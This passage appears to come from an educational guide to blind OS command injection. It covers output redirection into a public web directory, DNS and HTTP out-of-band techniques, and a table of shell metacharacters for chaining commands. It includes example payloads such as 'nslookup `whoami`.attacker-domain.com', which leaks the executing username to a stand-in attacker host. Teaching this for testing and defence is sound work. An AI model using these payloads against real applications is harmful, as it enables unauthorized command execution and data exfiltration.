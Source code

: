 `sleep 10`

### Exploiting blind OS command injection by redirecting output

Sometimes one can redirect output of a command into a file which is accessible by him. For example, a web application can store static resources in the `/var/www/static` that are publicly available to the users and if the application is vulnerable then the following command will redirect output of the command and store it in the file that is accessible by anyone:

```whoami > /var/www/static/whoami.txt```

### Exploiting blind OS command injection using out-of-band techniques

Injected command can be used to trigger an out-of-band interaction with a controlled system. This technique is especially good in cases where the result of command execution is not displayed.

There are multiple ways to establish the out-of-band interaction but the most frequently used are DNS and HTTP protocols. No matter which protocol or command is used to establish the out-of-band interaction the attacker can monitor to see if the lookup happens, to confirm if the command was successfully injected.

#### DNS

The `nslookup` command allows to cause a DNS request for the specified domain:

`nslookup attacker-domain.com`

This technique can also be combined with other commands or shell metacharacters:

``nslookup `whoami`.attacker-domain.com``

The result of the command will look like this:

`nslookup johndoe.attacker-domain.com`

`johndoe` is the name of the user on behalf of which the command was executed.

#### HTTP

The `curl` command allows to send an HTTP request to the specified domain:

`curl http://attacker-domain.com/`

This command can also be combined with other commands or shell metacharacters as was shown before.

## Shell features

There are multiple ways a command can be injected using one of the shell features.

| **Shell feature** | **OS** | **Example** | **Explanation** |
|:------------------|:-------:|:------------:|:-------------:|
| Sequential execution | Linux | `command1 ; command 2` | Executes `command1`, then executes `command2` |
| Pipeline | Linux, Windows | `command1 \| command2` | Sends the output of `command1` as input to `command2` |
| Command substitution | Linux | ``command1 `command2` `` or `command1 $(command2)` | Sends the output of `command2` as arguments to `command1` |
| AND list | Linux, Windows | `command1 && command2` | Executes `command2` if `command1` returns an exit status of 0 (success) |
| OR list | Linux, Windows | `command1 \|\| command2` | Executes `command2` if `command1` returns a non-zero exit status (error) |
| Output redirection | Linux, Windows | `command1 > test.txt` | Overwrites the content of `test.txt` file with the output of `command1` |
```
